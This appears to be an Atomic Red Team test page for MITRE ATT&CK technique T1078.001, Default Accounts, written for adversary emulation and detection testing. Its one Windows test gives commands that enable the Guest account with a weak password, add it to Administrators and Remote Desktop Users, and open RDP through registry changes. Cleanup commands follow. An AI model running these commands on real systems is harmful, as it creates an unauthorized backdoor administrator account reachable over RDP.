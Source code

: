 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1078.001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems or default factory/provider set accounts on other types of systems, software, or devices.(Citation: Microsoft Local Accounts Feb 2019)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-priviliges)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group, and desktop will allow multiple RDP connections

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user guest /active:yes
net user guest Password123!
net localgroup administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user guest /active:no
net localgroup administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f
```





<br/>

